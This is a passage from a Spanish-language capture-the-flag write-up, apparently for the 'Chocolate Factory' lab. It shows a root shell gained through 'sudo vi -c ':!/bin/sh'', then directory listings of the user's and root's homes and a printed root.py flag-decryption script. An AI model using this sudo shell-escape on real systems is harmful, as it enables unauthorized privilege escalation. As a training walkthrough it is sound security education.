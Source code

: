 Pues allá que vamos.

```console
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null

# 
# ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
# cd /root
# ls -la
total 40
drwx------  6 root    root    4096 Oct  7  2020 .
drwxr-xr-x 24 root    root    4096 Sep  1  2020 ..
-rw-------  1 root    root       0 Oct  7  2020 .bash_history
-rw-r--r--  1 root    root    3106 Apr  9  2018 .bashrc
drwx------  3 root    root    4096 Oct  1  2020 .cache
drwx------  3 root    root    4096 Sep 30  2020 .gnupg
drwxr-xr-x  3 root    root    4096 Sep 29  2020 .local
-rw-r--r--  1 root    root     148 Aug 17  2015 .profile
-rwxr-xr-x  1 charlie charley  491 Oct  1  2020 root.py
-rw-r--r--  1 root    root      66 Sep 30  2020 .selected_editor
drwx------  2 root    root    4096 Sep  1  2020 .ssh
#
```

Ups !. No nos encotramos con el típico fichero *root.txt*. En su lugar nos han dejado un *root.py*. Lo abrimos a ver qué contiene.

```console
# cat root.py
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)# 
```

